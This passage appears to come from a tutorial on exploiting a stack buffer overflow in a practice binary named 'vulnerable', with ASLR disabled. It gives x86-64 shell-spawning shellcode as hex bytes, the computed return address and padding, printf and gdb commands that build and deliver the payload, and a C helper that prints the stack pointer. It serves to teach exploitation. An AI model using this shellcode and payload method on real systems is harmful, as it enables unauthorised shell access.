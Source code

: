 The target address where the character array `str` starts is:
```
\xb0\xdc\xff\xff\xff\x7f
```
(note the little-endian byteorder) having a length of 6 bytes. 

Together both strings have a byte length of 34 bytes, such that we have to add another 44 padding bytes in between them. We will use `printf` to assemble the bytestring and will use 44 `0`s (encoded as `\x30`) as padding bytes.

Putting it all together we have the following `printf` expression that creates the bytestring for us:
```
printf "%b%044x%b" "\x48\x31\xc0\x50\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\xb0\x3b\x48\x31\xd2\x48\x31\xf6\x48\x89\xe7\x0f\x05" "0" "\xb0\xdc\xff\xff\xff\x7f"
```

This can be input in `gdb` as follows:
```
run $(printf "%b%044x%b" "\x48\x31\xc0\x50\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\xb0\x3b\x48\x31\xd2\x48\x31\xf6\x48\x89\xe7\x0f\x05" "0" "\xb0\xdc\xff\xff\xff\x7f")  
```

If everything works as expected, the above command will exploit the vulnerability in the executable `vulnerable` and will span a shell within `gdb`.

### An Exploit for the Executable

Up to this point, we have developed an exploit, that works within `gdb`, however, we would of course be interested in an exploit we could use right away for the executable. Try to run our exploit code from the last paragraph directly in a shell with the executable, most probably the program will crash with a segmentation fault.

In order to understand the problem, compile the following `C`-code:

```
#include <stdio.h>

unsigned long find_addr(void)
{
	__asm__("movq %rsp, %rax");
}

int main()
{
	printf("0x%llx\n", find_addr());

	return 0;
}
```

For compiling use the `-g` option, so you have the debugging symbols in the executable. The program obviously does nothing else, than printing the current address of the top of the stack (the content of the `rsp`-register). Running the program multiple times should return the same address (else you most probably did not turn off address-space-layout-randomization).
